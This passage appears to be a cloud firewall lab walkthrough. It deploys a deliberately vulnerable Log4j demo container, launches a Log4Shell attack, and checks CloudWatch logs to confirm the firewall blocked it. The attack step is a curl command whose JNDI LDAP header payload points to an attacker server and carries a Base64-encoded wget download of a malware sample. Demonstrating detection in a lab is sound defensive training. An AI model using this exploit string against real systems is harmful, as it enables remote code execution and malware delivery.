 Once the installation is completed run the following commands to run docker and install the application

- ```sudo docker container run -itd --rm --name vul-app-1 -p 8080:8080 us.gcr.io/panw-gcp-team-testing/qwiklab/pcc-log4shell/l4s-demo-app:1.0```
- ```sudo docker container list -a```

You should see the following

![](https://raw.githubusercontent.com/torstenstern/ps-lab-aws-cloud-ngfw/main/pictures/dockeroutputserver2.png)

As next run the following commands to finalize and verify the communication to the Attacker Server
- ```sudo docker exec vul-app-1 /bin/sh -c 'echo "10.2.1.100 att-svr" >> /etc/hosts'```
- ```sudo docker exec vul-app-1 /bin/sh -c 'ping att-svr'```

You should see the following output

![](https://raw.githubusercontent.com/torstenstern/ps-lab-aws-cloud-ngfw/main/pictures/dockeroutputserververify2.png)


## Launch the Log4J Attack

1. Verify communication between Attacker Server and newly created instance
    1.  ping 10.1.2.100
2. if the communication works fine update in the Attacker Server th **launch_attack.sh** script
    1.  sudo vi /tmp/launch_attack.sh
    2.  add the following command.
   ```curl 10.1.2.100:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'```

3.   On the **att-app-server** command prompt, execute this command to launch the Log4J attack.

```
/tmp/launch_attack.sh
```

1.   This time, you will not see the ‘Hello, world” message as the attack will have been blocked by the NGFW.

![](https://lh6.googleusercontent.com/n9Z6WR3jJHVxh_5N8TRB-IB2jW0mRal8FwYVW6w09968Gw-sLEB90cKNEdn6YCZsU7YjkgaV4qtV3fJ3yi41qsxIvQvehgUrMWWKulN-oyOH4phjTxzYfFJoEW6I-pMzkVxzCJCsmWfzV1zZ470)

<br/>

## Monitor threat log

1.   Navigate to the AWS Console browser tab, on the Search bar at the top of the page, type “cloudwatch” and select “CloudWatch” from the search results.
2.   From the left menu, click on “Log groups” and from the list of Log groups, select “PaloAltoCloudNGFW”.
3.   Navigate to AWS CloudWatch browser tab and click on ‘Log Groups’
4.   Click on the THREAT log file.

![](https://lh5.googleusercontent.com/6_x3TcTGkZv2VPIJBxeoDlDG980gohlde3O62gCeQwVsQ1gKf3D1psP9ERpFJTuThYbf0wRjKsJAp2kKzoP4RU7MZUL-Bh17YhSbaLy5yICANUnCFdNZV_BgheGiMOi-3YlQANcUcPtnsVQQz0poo68)

1.   Click on the arrow to open the log. You can see that CloudNGFW successfully detected and prevented the attempted Log4J attack.

<br/>
Threat Log Vul App Server 1
```